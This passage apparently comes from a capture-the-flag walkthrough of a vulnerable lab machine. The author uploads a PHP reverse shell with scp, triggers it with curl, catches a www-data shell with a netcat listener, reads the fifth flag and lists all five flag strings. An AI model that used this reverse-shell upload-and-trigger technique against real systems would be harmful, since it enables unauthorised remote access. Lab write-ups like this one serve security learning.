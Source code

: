 My solution was simple. Just put a PHP reverse shell in there so I could get a shell as www-data. I transferred my PHP reverse shell over:

```
# scp phprshell.php bigtommysenior@172.16.146.141:/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS/uploads/
bigtommysenior@172.16.146.141's password: 
phprshell.php                                                                                                                                                      100% 5495     6.8MB/s   00:00    
```

I setup a listener on another terminal and used curl to get the script to execute. 

```
# curl -A iPhone http://172.16.146.141:8008/NickIzL33t/P4TCH_4D4MS/uploads/phprshell.php
```

And my reverse shell:

```
# nc -lvp 443
listening on [any] 443 ...
172.16.146.141: inverse host lookup failed: Unknown host
connect to [172.16.146.139] from (UNKNOWN) [172.16.146.141] 45340
Linux CallahanAutoSrv01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 23:01:02 up 1 day,  5:28,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
bigtommy pts/0    172.16.146.139   22:48   25.00s  0.38s  0.38s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Onwards to the fifth flag:

```
$ cat /.5.txt
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!!
OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!!

Flag data: Buttcrack

Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk.
So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you"
you would create this blob:

hithereyou

Do this for ALL the flags sequentially, and this password will open the loot.zip in Big Tom's
folder and you can call the box PWNED.
```

Ok, so to recap, here are the flags:

1. B34rcl4ws
1. Z4l1nsky
1. TinyHead
1. EditButton
1. Buttcrack
